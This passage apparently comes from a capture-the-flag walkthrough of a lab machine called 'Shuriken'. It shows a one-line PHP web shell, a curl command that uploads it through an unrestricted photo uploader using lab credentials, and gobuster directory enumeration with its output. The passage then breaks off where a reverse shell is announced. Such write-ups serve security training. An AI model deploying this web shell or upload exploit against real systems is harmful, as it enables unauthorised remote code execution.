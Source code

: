 and cmd.php is this

```
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```


with  | jq we can see the json response

curl -F "file=@cmd.php" -F "plupload=1" -F "name=cmd.php" http://developers:9972761drmfsls@broadcast.shuriken.local/actions/photo_uploader.php | jq
```
 "success": "yes",
  "file_name": "1691461034652393",
  "extension": "php",
  "file_directory": "2023/08/08"

```

so... we put the archive but we dont know where, we will find it with dirbuster

gobuster dir -u http://developers:9972761drmfsls@broadcast.shuriken.local -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt  -t 20


And this is the result !!!
```
===============================================================
2023/08/08 04:26:08 Starting gobuster in directory enumeration mode
===============================================================
/files                (Status: 301) [Size: 336] [--> http://broadcast.shuriken.local/files/]
/plugins              (Status: 301) [Size: 338] [--> http://broadcast.shuriken.local/plugins/]
/ajax                 (Status: 301) [Size: 335] [--> http://broadcast.shuriken.local/ajax/]
/includes             (Status: 301) [Size: 339] [--> http://broadcast.shuriken.local/includes/]
/js                   (Status: 301) [Size: 333] [--> http://broadcast.shuriken.local/js/]
/api                  (Status: 301) [Size: 334] [--> http://broadcast.shuriken.local/api/]
/cache                (Status: 301) [Size: 336] [--> http://broadcast.shuriken.local/cache/]
/images               (Status: 301) [Size: 337] [--> http://broadcast.shuriken.local/images/]
/player               (Status: 301) [Size: 337] [--> http://broadcast.shuriken.local/player/]
/styles               (Status: 301) [Size: 337] [--> http://broadcast.shuriken.local/styles/]
/readme               (Status: 200) [Size: 2968]
/LICENSE              (Status: 200) [Size: 2588]
/actions              (Status: 301) [Size: 338] [--> http://broadcast.shuriken.local/actions/]
/server-status        (Status: 403) [Size: 289]
Progress: 220125 / 220561 (99.80%)
===============================================================                                                                                                       
2023/08/08 04:29:15 Finished                                                                                                                                          
===============================================================       
```

the route is here http://broadcast.shuriken.local/files/photos/2023/08/08/1691461034652393.php, so now im going to use a reverse shell to come inside of the machine
